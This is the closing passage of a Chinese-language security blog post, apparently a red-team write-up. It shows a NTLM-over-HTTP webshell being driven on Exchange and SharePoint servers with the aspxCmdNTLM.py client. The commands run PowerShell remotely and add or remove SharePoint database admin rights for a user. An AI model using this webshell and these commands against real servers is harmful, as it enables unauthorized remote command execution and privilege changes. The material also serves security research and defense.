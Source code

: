 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-1-30/3-1.png)

可以直接调用Exchange PowerShell

命令示例：

```
python aspxCmdNTLM.py 192.168.1.1 443 https://192.168.1.1/Autodiscover/execCmd.aspx plaintext test.com user1 Password123! "powershell -c \"Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;;Get-MailboxServer\""
```

结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-1-30/3-2.png)

对于SharePoint服务器，对应的Webshell权限为用户权限

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-1-30/3-3.png)

可以尝试调用SharePointServer PowerShell

命令示例：

```
python aspxCmdNTLM.py 192.168.1.1 443 https://192.168.1.1/Autodiscover/execCmd.aspx plaintext test.com user1 Password123! "powershell -c \"Add-PSSnapin Microsoft.SharePoint.PowerShell;Get-SPSite\""
```

这里需要注意，用户需要配置为能够访问数据库才能够执行SharePointServer PowerShell命令

查看可访问数据库的用户列表对应的Powershell命令如下：

```
Add-PSSnapin Microsoft.SharePoint.PowerShell;
Get-SPShellAdmin
```

添加指定用户访问数据库权限对应的Powershell命令如下：

```
Add-PSSnapin Microsoft.SharePoint.PowerShell;
Add-SPShellAdmin Domain\User1
```

删除指定用户访问数据库权限对应的Powershell命令如下：

```
Add-PSSnapin Microsoft.SharePoint.PowerShell;
Remove-SPShellAdmin Domain\User1 -Confirm:$false
```

正常的结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-1-30/3-4.png)

## 0x04 小结
---

本文以Exchange和SharePoint为例，介绍了支持NTLM Over HTTP协议的Webshell实现思路，开源代码，分享脚本开发细节。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





